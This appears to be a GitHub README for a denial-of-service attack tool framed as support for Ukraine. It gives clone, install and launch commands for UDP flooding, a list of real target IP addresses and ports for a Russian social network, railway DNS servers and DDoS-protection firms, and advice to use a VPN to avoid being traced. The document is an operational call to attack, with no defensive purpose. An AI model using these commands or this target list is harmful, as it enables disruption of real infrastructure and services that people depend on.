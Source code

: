 

<h1 align="center">DDoS Attack Script to help Ukraine</h1>




<p align="center">You are advised to use a vpn! Please attack only russian websites.</p>





### Getting Started

If you dont have metasploit or any other tool you can use this tool

**Clone and Install Script**

```console
git clone https://github.com/carlostkd/DoS_Attack.git
cd DoS_Attack
pip3 install -r requirements.txt
```

**Launch Script**



* Server/Home:
```console
python3 start.py udp <ip>:53 1 100
```

currently dns targets make them cry!
```console
ok.ru social network
5.61.23.11 : 80 HTTP / 443 HTTPS
217.20.155.13 : 80 HTTP / 443 HTTPS
217.20.147.1 : 80 HTTP / 443 HTTPS


Killing Russian Railway please join!

217.175.155.100 : 53 UDP
217.175.155.12 : 53 UDP
217.175.140.71 : 53 UDP

https://ddos-guard.net/ru
https://stormwall.pro/
https://qrator.net/ru/
https://solidwall.ru/
194.54.14.185:53
194.54.14.187:53
194.67.7.1:53
194.67.2.109:53
```






